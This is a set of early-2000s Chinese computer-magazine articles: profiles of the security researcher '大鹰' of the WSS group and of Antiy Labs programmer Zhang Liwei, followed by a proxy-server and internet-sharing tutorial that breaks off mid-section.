#### 网络安全路漫漫

开始接触 Linux 是很偶然的。一次，我在看《微型计算机》的时候，上面有一篇文章提出 Linux 发展不可小视，当时根本不知道 Linux 是操作系统。后来到处了解，才有人告诉我那是一套开放源代码的操作系统。知道很少有人使用 Linux，我就产生了很大的兴趣，因为我不喜欢流行的东西。随后买了一套 RedHat Linux 5.3，安装上后开始自己研究。后来通过看一些人写的心得，看《RedHat Linux 4.x 大全》来提高自己的水平，应该说那个时候是进步很快的。然后我做了第一个版主，就是西祠胡同 UNIX 版的版主，那个时候很尽职尽责，每天回答别人的问题。就这样一点一滴的，让我的技术有了一定的积累。

转眼间就要毕业了。2000年7月我和 abu 见面了，这可以说是一次历史性的见面，是人生的一个转折点。我们谈了很多，他提出了公司缺少 UNIX 人员，希望我能过去，我同意了。这是我第一份网络安全性质的工作，实现了从学校到工作的转化。

在补天公司我做的是技术总监，专门负责技术、人员培训等等，那个时候技术增长得很快，可以说是一个飞跃。但是一个公司不能只有技术，还有很多别的东西，尤其是管理方面。所以平时工作还要涉及到人员招聘、培训、部门管理、公司服务体系管理等。尤其是培训方面，我经常出去培训，我们曾经举办过一次培训活动，所有的电脑爱好者都可以免费参加。在补天工作的时候，不仅是技术的提高，得益更大的是我的人际关系、培训能力、管理能力有了很大的发展，而且为自己向网络安全方向的发展定了位。就这样工作了整整一年，但是公司没有任何的发展，而且亏损了很多，这时候投资商开始失去信心。一起的同伴们也开始离去，其实开始我并没有打算离开，但是由于公司上层对一些同事的做法让我感到非常失望，所以我也决定离开，就这样结束了第一份工作。

离开补天后，工作并没有停止，因为 quack 的介绍，我马上到华泰上班了。刚开始上班的时候很辛苦，第一个月都是在公司睡的。来北京之后真的感觉高手林立，那时候感到在技术上和袁哥、warning3 他们相差很远，不过那个时候可以专心做技术，做 Linux 内核的研究，所以进步很快。但是一段时间后，由于公司管理不善，被其它公司收购了。在华泰的时候，由于我的介绍，alert7、ilsy 都来到了华泰，被收购后，冰河也加入进来，我们就形成了一个开发团队。应该说开发安全操作系统是我们的一个梦想，那时候正好有一个安全项目，可以说是圆了我们的梦。那是一段黑白颠倒的日子，不过这对我们的锻炼很大。项目中涉及到 Linux 的方方面面，为以后也打下基础。公司后来不再做安全产品了，所以我们就都离开了那里。中国的网络安全公司是新兴的产业，还需要相当长的时间来完善，这几家公司就是最好的例子。

#### 明天还要继续

现在我们的谈话地点转到了他家里。说家并不准确，其实只是暂时的家。屋子不大，而且摆设很简单，一张床，一个衣橱，一个物品柜。他拿出了那台手提 IBM，手指开始在键盘上飞舞，一个标准的程序员姿势。

“搞网络安全也有4年了吧，有没有想过以后做什么？”

“以后，以后还是搞网络安全。”

“将来搞不动了呢？”

“搞不动就做一些泛泛的东西，比如做文档管理。我觉得应该为中国的网络安全做一些贡献，因为现在网络安全已经提升到国家高度了。一个国家的信息行业很重要，国家需要一批人长时间从事信息工作，我们应该为国家做点事情。”

#### WSS

提起大鹰，一定要说一下他所在的组织 WSS。这是个具有国际地位的组织，他们的网站 www.whitecell.org 大量使用了英语，技术含量很高，吸引了很多国内外的系统安全爱好者。

说起 WSS 还要先提一下大鹰刚来北京的时候。2001年6月来到了北京，到北京马上就和 sinister 见面了，那时候感觉很好，然后他介绍了 ilsy，他把刚毕业的 alert7 也邀到了北京，他们四个人经常在一起讨论技术，后来觉得有必要成立一个组织。当时国内的网络安全组织除了 xfocus 之外几乎没有比较精纯的，很缺少国外像 TESO、lsd 等这样非常专业的系统核心的安全研究。他们几个手上也有些东西，当时就是这个初衷，希望做中国的 TESO，追求技术原创，低调，传统的 Hack 精神。WSS 的发展方向就是成为中国最具专业性、最深入的系统安全研究小组。

低调的非盈利的网络安全系统技术研发站点，定位类似国外的 TESO，做一些系统深入研究工作。WSS 成立快一年了，发展势头是很好的，大鹰说他们有信心做好。

不过 WSS 的定位比较高，大部分是成员原创的文章、代码和工具，并不适合初学者。WSS 的论坛有一个和其他站点非常显著的区别，那就是没有灌水版。对于现在的电脑技术论坛来说，灌水区可能是论坛游客唯一可以海阔天空随心所欲畅谈的地方，所以很多站点也依靠灌水区来提高自己的人气值。但是 WSS 正好相反，在 2002 年 7 月份毅然把人气鼎盛的灌水版关闭了，原因很简单，“我们不需要人气，我们要做的是专业”。

### 离不开的游戏

一提起游戏，大鹰立刻变得很兴奋，好像每个男孩子都一样，接触电脑都是从游戏开始的。

大鹰高二的时候认识了电脑游戏，那时候都是 DOS 下的小游戏，后来出现了“红警”，是真正游戏时代的开始。那个时候一有时间就找玩游戏的地方，不过高中学习的时间还是占主要的，因为毕竟还有高考。进入大学后，业余时间比较多，所以就接触了更多的电脑游戏。那时候玩的游戏真是数不过来，大鹰说比较喜欢体育类的，像“NBA”，从 94 开始玩，一直玩到 2002，“FIFA”从 97 玩到 2001，还有三国系列的“三国志”，都是从最早开始玩的。“三国志 3”是一个飞跃，一直到现在的“三国志 8”，其中还包括“三国英杰传”、“三国群英传 2”等等。有一段时间也玩 RPG。一次，他们宿舍的人玩“破碎虚空”，整整 5 天 5 夜没出去，终于通关了，但是以后再也不玩了，太费时间。

这些都是 PC 游戏，后来他开始接触 PS 游戏，它的视觉效果和游戏速度让大鹰震撼。自从开始玩 PS，大鹰就放弃 PC 了，因为他觉得 PC 在游戏方面是永远赶不上 PS 的，PS 是专业的游戏机，但是 PC 不是，游戏只是它的一个部分，很多优秀的游戏都是出现在 PS 上，不过现在很多 PS 游戏向 PC 上移植了。PS 上像 NBA 2002、FIFA 2002、生化危机、实况足球等等，都很喜欢，尤其是实况足球，真实性无与伦比，是他的最爱。现在已经出 PS2 了，用的 128 位微处理器，大鹰说真的很向往，希望能尽快拥有一台。

“玩游戏真的占据了很多时间，结果大学里面荒废了很多学业，但是事情总是有两方面的，如果不是玩游戏，那么我就不会对电脑产生这么大兴趣，就不会这么早接触网络和 Linux，所以有得必有失。”大鹰如是说。

### 你是真正的攻击者吗

“什么是攻击者？你可以攻击，但是要注意攻击的手段与攻击的效果（即以不搞破坏为前提，以研究学习为目的，以提醒被攻击者为结果）。举个例子，Unicode 漏洞，你利用它攻击一个网站成功了，可是又利用它攻击另外一个，你在不断地利用这个漏洞进行攻击，但是你并没有掌握原理。在你掌握了原理以后，你也就会对这种攻击失去兴趣了。最可悲的是有人根本没用过，甚至不知道 Linux、UNIX 是什么，还在不断地进行攻击。你可以去攻击，但是要了解攻击的原理。我很佩服会攻击的人，但不是利用别人工具攻击的人，你可以自己发现对方的漏洞，写出程序，然后去攻击。像那些鲜为人知的漏洞就没有必要再去攻击了，只要了解它的原理就可以了。如果想做真正的攻击者，就要了解系统，找出漏洞，明白攻击的原理，去写程序，真正的攻击者并不是那么容易做的。”

“我觉得这一行中并没有什么难学的东西，最主要的还是一种学习心态，只要你踏踏实实地去学一些东西，几乎没有什么学不会的。这行中有很多都是很枯燥的东西，而且很容易受到挫折，比如在调试一段溢出代码的时候，你面对的都是机器码，很多人就很难进行下去，但是你一定要有毅力，坚持下去。只要你有一份好的心态，就会很有潜力发展下去。对于初学者来说，基础知识很重要，越扎实的文化功底就能学得越好。学校学的东西并不是没有用，我在看源代码的时候还要把大学中的数据结构、C 语言等复习一遍，大学里面学的都是最基础的东西，如果这些没有学好，某种程度上就会制约以后的发展。这一点我现在深有感触，所以在这里提醒在校的大学生和那些不想上大学的高中生们，珍惜你们的现在。”

夜已经深了，采访也已结束，路上静静地回忆大鹰刚才所说的话。海阔凭鱼跃，天高任鸟飞，这只鹰一定会继续沿着这条路飞下去，展翅翱翔，飞向一片更加宽广绚丽的天空。

### 十年程序苦旅
### 文／风影 —— 记安天系统程序员张栗炜

2002 年 7 月国际上硕果仅存的 free 测评组织 Softbase 继续进行着从硬件到软件的数十项年度评选，在 Anti Virus Top 100 中，来自中国的安天实验室的 Antiy Ghostbusters 名列第 45 名，这固然算不上什么很大的荣誉，但毕竟是惟一入围的中国产品。我们今日走近的，就是这个软件的主程序员之一，中国安天实验室（Antiy Labs）网络安全开发组负责人张栗炜。

张栗炜出生在黑龙江煤炭重镇鸡西。初中时代的他，生平第一次接触到电脑，尽管玩得不亦乐乎，但初中毕业时，在 Apple II 上写一个小游戏，对他来说，已经不是什么问题。

到了高中，他终于不满足在 Apple Basic 里写一些浅浅的东西了，系统的内部结构吸引了他，但苦于没有老师指点。高一的一个天气阴沉的下午，他们班负责为学校打扫卫生，他从一堆落满浮灰的资料中发现了 1 本指令手册和 1 本参考资料，顿时他面前一片晴朗。尽管都是英文，但从此他开始了苹果机上的汇编语言学习。当时每周只有 1 次计算机课，他苦于上机时间不足，于是义务为机房打扫卫生来骗取上机的时间。计算机课的老师非常喜爱这个程序迷，于是给他配了一把机房钥匙。他终于如鱼得水。

老师发现除了数学之外，张栗炜的各科成绩都在下降，大为不满，第一次高考，张栗炜落榜了。三年汇编编程经验，换取一次大学落榜，没有人觉得是值得的。也许除了他自己。

参加复读的张栗炜没有完全忘记他的程序员梦想，竟然不知从哪里找来了一本 C 的小册子自娱自乐。他自己回忆说，当时学 C 没有任何吃力的感觉，可惜的是当时能找到的资料太少，鸡西的书店里，根本找不到资料，而且那一年没有上机的机会。

再次高考张栗炜被齐齐哈尔轻工学院录取，专业是化工机械。至今他的高中老师仍然惋惜：“完全考得上名牌学校的脑袋，就被计算机耽误了。害人啊。”

来到大学的张栗炜，第一件事情就是到图书馆去借 C 的编程手册，齐轻工的条件非常一般，当时的图书馆里只有一套三卷本的《Turbo C 函数手册》，张栗炜就都借走了。说来很巧，当时有一个大三的“成名高手”，TC 玩得很熟，本来借这套书查阅一直是他的专利，当来到图书馆说书被借走了，而且是被一个大一新生借走，大感诧异。他放出话来，要会会这个师弟。后来，这个掌门师兄，张栗炜，加上另一个和张栗炜一起复读、一起上齐轻工的兄弟，就在一起“混”了，由于三人总是把持《Turbo C 函数手册》，人称 TC 三人帮。

学校里的机器配置不高，爱去上机的人不多，他们三个晚上看书交流，白天一起上机。张栗炜度过了生命中比较惬意的一段时光。

大二的上学期张栗炜因频繁逃课，被降级处理。连掌门师兄都觉得很过意不去，但降级后的张栗炜一切如故，除了看书和编程，非常热衷的事情，就是参与组织学生计算机协会。

1994 年的寒假，张栗炜以齐轻工学院学生计算机协会副会长的身份，走访了哈尔滨工业大学学生计算机协会。由于正值假期，他只见到了他的高中同学，当时哈工大计协开发部副部长秦树多，他们都如数家珍地介绍起各自计协的组织情况和骨干，当时他并没有在意秦树多提到的一个叫肖新光的名字。更不会想到，7 年后，他和这个人会把“接头”地点，选定在哈工大正门。

又一年过去了，1995 年的十月十日十点钟，当张栗炜的同班同学们顺利升入大三的时候，张栗炜因多科不及格被学校开除。

离开学校的前几天，张栗炜走遍了齐齐哈尔为数不多的电脑公司，那些公司老板丝毫不觉得一个汇编和 C 烂熟于心的程序员会比一个装机工更有价值。

失去了才知道可贵，一台可以使用的计算机竟然那么难于寻觅。家里也有一些变故，欠了很多外债，张栗炜陡然感觉到生存的压力。回到家的张栗炜，每天早上到很远的市场上批发水果，摆摊叫卖。在中国式的那种街道集贸市场中，脸色乌黑的张栗炜，和那些高声吆喝的小贩没有任何不同，如果说不同，那就是他永远背着一个帆布军挎，而书包里仍然会放着一本《计算方法》或者《数据结构》。他卖货看书两不耽误。

卖水果之后，张栗炜开始卖冰糕。张栗炜的继续学习之旅是与这些同步的，尽管记不清具体时日，但这种日子绝对不止一年。直到如今，张栗炜还总是买回成斤的冰糕给安天的兄弟们享用，或者买一袋子的水果。以至大家怀疑，那是一种水果情结，或者冰糕后遗症。

如果对程序员来说，水果小贩的经历已经难以想象，就更无法想象张栗炜还当过修路的民工。在一群膀大腰圆的民工中，他显得很瘦弱，但他不会干得比别人少。“如果你从牡丹江坐汽车到鸡西，那段公路上就有我的汗水，”张栗炜自豪地说。

民工的生活很苦，还要受工头的压迫，张栗炜爆发了，一天，他和工头发生了冲突，那是他平生第一次打架，对于一个人高马大的工头，结果可想而知。张栗炜决定离开包工队了，他是沿着公路走回鸡西的，当他看到家乡熟悉的建筑，泪水终于滑落了，不是因为想家，不是因为委屈，是因为当他重重的把行李卷摔在地上的时候，一本《数理逻辑》从行李卷儿中滑落出来，他突然想起了，他是一个程序员。

他的手指已经超过一年没有触摸到键盘了。他告诉当时在北京某公司担任程序员的秦树多，他要到北京找工作。秦树多帮他联系了几家公司，可是要不就是简历人家看了就摇头，要不就是简短的面谈后，连实习的机会也不会给。没有人相信，一个只读了两年大学，又没有就职于计算机公司的人，会是一个成熟的 ASM/C 程序员。

他再次回到了黑龙江，开始了在计算机公司的打工、拼活之旅。攒机器，掐网线，看网吧，总之，一切没有技术含量的活都干过了。但这只是表面现象，内在中，他正试图让自己完成一个资深的 DOS 程序员到资深 Win32 程序员的转变。非常偶然的一个机会，让这个转变得以彻底完成。

当时的安天实验室正全力给航天部某基地开发一个型号加密网关系统，因此原计划开发木马查杀工具 Antiy Ghostbusters 2.0 就没有人力了。一次，实验室创始人之一的肖新光与当年哈工大计协的伙伴秦树多谈及此事，秦树多一下就想起了张栗炜。于是，秦主持了一次 QQ 上的三人会谈，一拍即合。

只有程序员才能衡量出程序员的价值。2001 年 2 月，白雪纷飞的残冬里，他们约见在哈尔滨工业大学正门，为了便于确认，张栗炜告诉肖新光，他背着一个帆布军挎，里面放着一只烧鸡。

张栗炜只在作为安天实验室本部的民宅里呆了一天，当时实验室多数成员在武汉做航天部项目，实验室决定为了便于管理，所有开发到武汉进行，当天他和留守人员吃光了那只烧鸡，然后就和新的伙伴们踏上了南下列车。

4 个月后，能够查杀 4200 种木马的 Antiy Ghostbusters 2.0 诞生了。肖新光说：“认为张栗炜行，当时完全是一种直觉，因为此前双方几乎没有谈任何具体的技术，刚开始的第一个月，进展特别缓慢，我甚至对他有些失望。但过了第一个月张栗炜就像火山在喷发”，他被压抑得太久了。

在安天，张栗炜得到了一个传奇人物的指点，他就是安天实验室创始人之一，曾受到美国贝尔专题研究邀请的赵志刚高级工程师。在张栗炜眼中，赵工是那种集合天才程序员和专家类型特性的人物。

在编写 Ghostbusters 2.0 的同时，张栗炜参加了安天 IDS 产品 Antiy Numan V2.0 的开发，并开始着手规划 Antiy Numan 的新版本。Antiy Ghostbusters 2.0 开发完成后，安天实验室经过再三考虑，决定不发布这个版本，而直接以此为基础，开发更为强大的集成安全工具 Antiy Ghostbusters 3.0，新的工具融合了木马查杀、应用程序网络访问控制、文件监控、注册表等功能。

---

### 共享上网浅识
#### 掌握软件应用

- 什么是代理服务器（Proxy Server）
- 代理服务器的原理
- 共享上网方案之一——Internet 连接共享
- 共享上网方案之二——Microsoft Proxy Server
- 共享上网方案之三——Sygate Office Network
- 共享上网方案之四——通过 WinGate 实现共享服务

随着 2002 年的到来，越来越多的计算机用户进入了因特网。不论是家庭还是企业，因特网都已经成了人们生活工作的一部分。因特网促进了信息产业的发展，改变了人们的生活、学习和工作方式。但是随着大量计算机用户涌入因特网，相继就会产生诸如 IP 地址耗尽、网络资源争用和网络安全等问题。

举个简单的例子：一个企业有几百台微机联网，那么一台主机访问了某个站点而另一台主机又访问同一个站点，如果是同时访问将出现网络资源争用的问题；如果是相继访问将出现增加本单位网络费用的问题。更重要的是因特网上经常会有一些不安全的行为出现。如果每台主机都直接连到因特网上，势必会对内部网（Intranet）的安全造成严重的危害。

代理服务器（Proxy Server）可以缓解或解决上述问题，因此可以说是因特网共享解决方案（Internet Sharing Solution）的关键。它通过高速缓存（Cache）共享资源，大大提高访问网站的速度和效率，减少网络传输流量，降低访问费用；同时起到防火墙的作用，保护局域网的安全。

### 什么是代理服务器
#### Proxy Server

代理服务器就是为了解决上述问题而产生的一种有效的网络安全产品。代理服务器软件安装在网络节点上，利用其高速缓存（Cache），可以极大地、极有效地缓存因特网上的资源。当内部网的一个客户机访问了因特网上的某一站点后，代理服务器便将访问过的内容存入它的高速缓存（Cache）中，如果内部网的其他客户机再访问同一个站点时，代理服务器便将它缓存中的内容传输给该客户机。这样就能使客户机共享任何一个客户机所访问过的资源，对于那些冗长、庞大的内容，更可起到立竿见影、事半功倍的作用。

代理服务器软件允许使用大量的伪 IP 地址，节约网上资源。如果几台 PC 想连接 Internet，却只有一根拨号线时，代理服务器就是一个很合适的解决方案。对于使用局域网方式接入 Internet，每个客户机是通过虚拟的 IP 地址实现与 Internet 间接相连的。代理服务器根据内部客户机的多少分配虚拟 IP 地址，外界不能直接访问内部网，同时可以设置 IP 地址过滤，限制内部网对外部的访问权限。另外通过代理服务器软件可以对用户进行分级管理，设置不同用户的访问权限。

### 代理服务器的原理

代理服务器（Proxy）的工作机制很像我们生活中常常提及的代理商。假设你的机器为 A 机，你想获得的数据由 B 机提供，代理服务器为 C 机，那么具体的连接过程是这样的：

首先，A 机需要 B 机的数据，它与 C 机建立连接，C 机接收到 A 机的数据请求后，与 B 机建立连接，下载 A 机所请求的 B 机上的数据到本地，再将此数据发送至 A 机，完成代理任务。这只是一个简单的描述，实际上代理服务器完成的任务比这要复杂得多。代理服务器就如一个屏障，它容许向 Internet 发送请求并且接收信息，但禁止未授权用户的访问。目前通过代理方式可以支持绝大部分的 Internet 应用。

在代理服务器中，应使用两块适配器卡（网卡、Modem），其中一块适配器卡与 Internet 相连，其地址是真实的 IP 地址，由它实现 Internet 与 Intranet 的互连；另一块适配器则是实现与 Intranet 内部各客户机的连接，并由它给每个客户机分配一个虚拟的 IP 地址，实现客户机与 Internet 的间接相连，从而共享 Internet 资源。

代理服务通常由两部分组成：服务器端程序和客户端程序。主要的服务器软件有 WinGate 公司的 WinGate Pro、微软公司的 Microsoft Proxy、Ositis Software 公司的 WinProxy、Tiny Software 公司的 WinRoute、Sybergen Networks 公司的 SyGate 等。这些软件不仅可以为局域网内的 PC 机提供代理服务，还可以为基于 Novell 网络的用户，甚至 UNIX 的用户提供代理服务。服务器和客户机之间可以用 TCP/IP、IPX、NETBEUI 等协议通信，提供 WWW 浏览、FTP 文件上传下载、Telnet 远程登录、邮件接收发送、TCP/UDP 端口映射、SOCKS 代理等服务。

### 共享上网方案之一——Internet 连接共享

这是最简单的方案，对于一些拓扑结构简单的网络，采用此方法很有效，比如几台机器通过拨号上网、ISDN 上网、ADSL 上网、DDN 上网等。

对于 Windows 98，在安装“Internet 连接共享”的主机上必须安装 Microsoft 网络用户、拨号适配器（Internet 适配器）、第二个网络适配器（本地网卡）、“Internet 连接共享”和本地适配器的 TCP/IP。需要注意的是 Internet 连接共享需要最后安装，等一切设置好并设立了拨号连接以后，再装 Internet 连接共享。对于 Windows 2000，需要安装 Microsoft 网络用户、拨号适配器（Internet 适配器）、第二个网络适配器（本地网卡）、TCP/IP 协议。

#### 拨号、ISDN 上网用户

对于拨号上网、ISDN 上网用户，在服务器端右键点击网上邻居的属性，双击 TCP/IP -> 网卡选项，进行 TCP/IP 设置。IP 地址设置为 192.168.0.1，子网掩码 255.255.255.0。网络上的其他计算机可以静态设置为 192.168.0.2 到 192.168.0.254 之间的任何 IP 地址。期间会让你选择主机的上网方式、上网自动运行的拨号连接以及上 Internet 所用的网络适配器。最后会要求插入一张安装盘。软盘，做网络其他计算机的共享配置磁盘。用这张软盘就可以自动配置共享上网用户。然后重新启动机器，右键点击拨号连接选属性，在“共享”选项卡，可以启用 Internet 连接共享（打钩选择）或关闭该计算机上的 Internet 连接共享。

客户端的设置需要注意的是 TCP/IP 设置，在（图4）中选中“自动获取 IP 地址”复选框，单击“WINS 配置”选项卡，然后选中“使用 DHCP 进行 WINS 解析”旁边的复选框，单击“网关”选项卡，添加 192.168.0.1；单击“DNS 配置”选项卡，然后选中“禁用 DNS”旁边的复选框，最后单击“确定”接受新的 TCP/IP 设置。

在任务栏显示图标向系统区内添加 Internet 连接共享。图标实时指明相互连接的计算机数量，同时还包括 Internet 连接共享选项的快捷菜单。



我们前面做的共享配置磁盘是不是还没有用呢？将在连接共享计算机上安装 Microsoft Internet 连接共享时制作的软盘插入您的软盘驱动器中，单击“开始”按钮，然后单击“运行”，键入：

```text
a:\icsclset.exe
```

点击“确定”。一切就绪后，不管主机是否上网，局域网上的机器都会自动调用主机的拨号连接，非常的方便，不过前提是主机必须预先配置好拨号连接，并让系统记住口令。

## 共享上网方案之二：Microsoft Proxy Server

MS Proxy Server 2.0 是一个优秀的代理服务器软件，是为企业级用户访问 Internet 提供的代理服务解决方案，它同时还是一个内容缓存服务器和网络防火墙。下面以 Microsoft Proxy Server 2.0 为例，对其具体配置做一简要讨论。

#### 设置 Microsoft Proxy Server

Microsoft Proxy Server 主要由以下几个服务器软件组成，即 Web Proxy、WinSock Proxy、Socks Proxy。

### Web Proxy 服务器的配置如下：

1. 从开始→程序→Microsoft Internet Server→Internet Service Manager 进入 IIS 管理窗口。如果是 Windows 2000 Server，则是：开始→程序→管理工具→Internet Service Manager，进入 IIS 管理窗口，双击其中的 Web Proxy 服务。
2. **Service：（图5）** Current sessions 项可查看局域网内其他工作站与 Web Proxy 的当前连接情况。Security 项中可对安全性做进一步的设置。Client configuration 项可对代理服务器的机器名及使用的端口号进行设置。Local Address Table 中可对网络中的 NT 服务器所在子网内的所有 IP 地址进行设置。

#### ADSL、DDN 专线上网用户

对于 ADSL 上网、DDN 上网用户，作为服务器的那台计算机需要安装两块网卡，其中一块连接 Modem，另外一块连接到集线器（交换机）。



一块网卡设置如图4，另一块网卡（如果有固定的 IP 地址），则需要设置正确的网关和子网掩码、DNS 解析。其他作为共享连接的客户机只需要连接到局域网。系统将会提示使用何种连接方式连接 Internet。

### 2. Permissions：（图6）



Permissions 设置项中可对 HTTP、FTP、Gopher 几种协议进行设置，并可设置各协议所允许的 NT 用户和用户组。

### 3. Caching：（图7）

